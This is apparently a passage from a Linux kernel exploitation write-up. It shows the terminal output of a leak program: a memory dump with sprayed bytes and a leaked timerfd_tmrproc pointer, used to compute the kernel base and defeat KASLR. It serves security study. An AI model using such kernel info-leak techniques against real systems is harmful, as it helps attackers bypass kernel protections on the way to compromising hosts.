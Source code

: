 This output confirms that the `timerfd_tmrproc` address was successfully leaked, allowing the computation of the `kernel_base` address, thus bypassing KASLR.
```plaintext
/ $ ./leak
0x0 0000000000000001 4141414141414141
0x10 4141414141414141 4141414141414141
0x20 4141414141414141 4141414141414141
0x30 4141414141414141 4141414141414141
0x40 4141414141414141 4141414141414141
0x50 4141414141414141 4141414141414141
0x60 4141414141414141 4141414141414141
0x70 4141414141414141 4141414141414141
0x80 4141414141414141 4141414141414141
0x90 4141414141414141 4141414141414141
0xa0 4141414141414141 4141414141414141
0xb0 4141414141414141 4141414141414141
0xc0 4141414141414141 4141414141414141
0xd0 0000000000000000 0000000000000000
0xe0 0000000000000000 0000000000000000
0xf0 0000000000000000 0000000000000000
0x100 0000000000000000 0000000000000000
0x110 0000000000000000 0000000000000000
0x120 0000000000000000 0000000000000000
0x130 0000000000000000 0000000000000000
0x140 0000000000000000 0000000000000000
0x150 0000000000000000 0000000000000000
0x160 0000000000000000 0000000000000000
0x170 0000000000000000 0000000000000000
0x180 0000000000000000 0000000000000000
0x190 0000000000000000 0000000000000000
0x1a0 0000000000000000 0000000000000000
0x1b0 0000000000000000 0000000000000000
0x1c0 0000000000000000 0000000000000000
0x1d0 0000000000000000 ffff9008ff948301
0x1e0 0000000000000000 0000000000000000
0x1f0 0000091a45dcff71 0000091a45dcff71
0x200 ffffffffb12201f0 ffff90097bc1ee80
0x210 0000000001000001 0000000000000000
0x220 0000000000000000 0000000000000000
0x230 0000000000000000 0000000000000000
0x240 0000000000000000 0000000000000000
0x250 0000000000000000 17dd62bd7a22594d
0x260 0000000000000000 ffff9008ff948290
0x270 ffff9008ff948290 0000000000000000
...
...
0x1fe0 0000000000000000 0000000000000000
0x1ff0 0000000000000000 0000000000000000
[+] timerfd_tmrproc addr : 0xffffffffb12201f0
[+] kernel_base addr : 0xffffffffb1000000
/ $
```
